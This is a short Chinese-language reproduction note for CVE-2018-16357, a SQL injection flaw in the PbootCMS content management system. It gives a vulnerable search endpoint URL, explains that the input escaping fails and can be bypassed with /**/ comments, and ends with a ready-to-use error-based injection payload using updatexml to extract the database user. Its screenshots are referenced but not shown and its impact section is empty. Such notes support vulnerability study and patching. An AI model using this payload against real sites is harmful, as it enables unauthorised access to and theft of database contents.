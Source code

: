 （CVE-2018-16357）PbootCMS sql注入漏洞
======================================

一、漏洞简介
------------

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。
PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

三、复现过程
------------

    http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1

参数\$field是我们可以控制的，去检查函数过滤器

![](resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId24.png)

使用函数trim和escape字符串避免sql注入

![](resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId25.png)

添加a\'会导致mysql语法错误，因此函数escape\\u字符串无效

![](resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId26.png)

使用/\*\*/绕过

### payload:

    field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1

